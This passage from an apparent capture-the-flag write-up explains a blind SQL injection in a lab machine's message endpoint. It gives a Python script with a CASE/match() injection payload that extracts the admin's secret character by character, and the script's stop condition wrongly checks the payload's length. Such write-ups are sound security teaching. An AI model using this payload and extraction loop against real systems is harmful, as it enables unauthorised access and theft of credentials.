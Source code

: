 And the answer will be:

![image-20201102222601904](/assets/img/image-20201102222601904.png)

Every time we send a message with a different letter the answer is always "OK", except with "f", it seems that "f" is the first letter of admin's secret... But we have to automate this or we risk to become stupid. I wrote a very little python script to achieve that:

```python
#!/usr/bin/env python3

import sys
import requests
import string

URL      = "http://10.10.10.195"
ENDPOINT = URL + "/submitmessage"
COOKIE   = {"auth": "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.sM+sPFosMol5cXEvchIHoXtiHyMgg1UmsPiSX8lzgLc=" }

## We need to retrieve admin's secret
# >> echo $COOKIE | cut -d "." -f 1 | base64 -d
# username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;
# >> echo $SECRET | wc -c
# 65
## Which is 65 alnum char lenght

def test(payload):
    response = requests.post(ENDPOINT, data = { "message" : payload }, cookies = COOKIE )
    return response.text

adminsecret = ""
for cnt in range(1,66):
    stop = False
    for letter in string.ascii_lowercase + string.digits:
        if stop:
            break
        payload = f"' AND (select CASE WHEN ( (SELECT hex(substr(secret,{cnt},1)) FROM users WHERE role=1) = hex('{letter}') ) then match(1,1) END ))--"
        resp = test(payload)
        if 'unable' in resp:
            adminsecret += letter
            if len(payload) == 64:
                print(f"[+] Finished, admin secret is:\n{adminsecret}")
                sys.exit(0)
            stop = True
    print(f"[+] Found new letter, updated secret: {adminsecret}")
```

